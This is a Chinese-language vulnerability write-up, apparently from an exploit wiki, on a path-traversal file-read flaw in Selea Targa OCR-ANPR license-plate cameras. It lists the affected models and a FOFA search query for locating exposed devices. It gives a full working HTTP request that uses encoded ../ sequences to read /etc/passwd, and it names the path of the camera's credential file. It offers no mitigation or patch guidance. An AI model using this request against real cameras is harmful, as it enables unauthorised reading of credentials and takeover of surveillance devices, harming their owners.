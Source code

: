# Selea OCR-ANPR摄像机 SeleaCamera 任意文件读取漏洞

## 漏洞描述

Selea OCR-ANPR摄像机 SeleaCamera 存在任意文件读取漏洞，攻击者通过构造特定的Url读取服务器的文件

## 漏洞影响

> [!NOTE]
>
> Selea Selea Targa IP OCR-ANPR Camera iZero
>
> Selea Selea Targa IP OCR-ANPR Camera Targa 512
>
> Selea Selea Targa IP OCR-ANPR Camera Targa 504
>
> Selea Selea Targa IP OCR-ANPR Camera Targa Semplice
>
> Selea Selea Targa IP OCR-ANPR Camera Targa 704 TKM
>
> Selea Selea Targa IP OCR-ANPR Camera Targa 805
>
> Selea Selea Targa IP OCR-ANPR Camera Targa 710 INOX
>
> Selea Selea Targa IP OCR-ANPR Camera Targa 750
>
> Selea Selea Targa IP OCR-ANPR Camera Targa 704 ILB

## FOFA

> [!NOTE]
>
> "selea_httpd"

## 漏洞复现

登录页面如下

![](http://wikioss.peiqi.tech/vuln/sel-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

发送如下请求包读取文件

```
GET /CFCARD/images/SeleaCamera/%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close
```

![](http://wikioss.peiqi.tech/vuln/sel-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

摄像头账号密码文件为 **mnt/data/auth/users.json**

![](http://wikioss.peiqi.tech/vuln/sel-3.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## Goby & POC

![](http://wikioss.peiqi.tech/vuln/sel-6.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)